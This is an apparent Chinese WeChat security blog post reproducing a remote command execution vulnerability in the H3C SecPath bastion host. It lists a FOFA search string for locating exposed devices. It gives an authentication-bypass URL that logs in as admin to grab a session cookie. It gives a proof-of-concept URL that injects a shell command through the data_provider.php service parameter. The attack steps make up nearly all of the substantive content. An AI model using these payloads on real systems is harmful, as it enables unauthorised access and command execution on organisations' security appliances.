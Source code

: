 ##  漏洞复现:H3C SecParh堡垒机 data provider.php 远程命令执行漏洞

椰子  [ 神隐攻防实验室 ](javascript:void\(0\);)

**神隐攻防实验室** ![]()

微信号 gh_84eef72d8c4d

功能介绍 安全知识学习，web渗透，安全资料分享！

____

__

收录于话题

  
  

点击蓝字/关注我们

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105948.png)

01:漏洞影响

H3C SecParh fortress machine  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105948.png)

02:FOFA语法

  

app="H3C-SecPath-运维审计系统"

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105948.png)

03:漏洞利用

通过任意用户登录获取Cookie：  

/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin

  

/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105948.png)

04:漏洞复现

  

    
    
    通过fofa语法app="H3C-SecPath-运维审计系统"找到一个登录页面

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105952.png)

  

先通过任意用户登录获取Cookie

  

    
    
    /audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105953.png)

然后换成最后POC进去，成功实现

    
    
    /audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805105954.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

漏洞复现:H3C SecParh堡垒机 data provider.php 远程命令执行漏洞

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

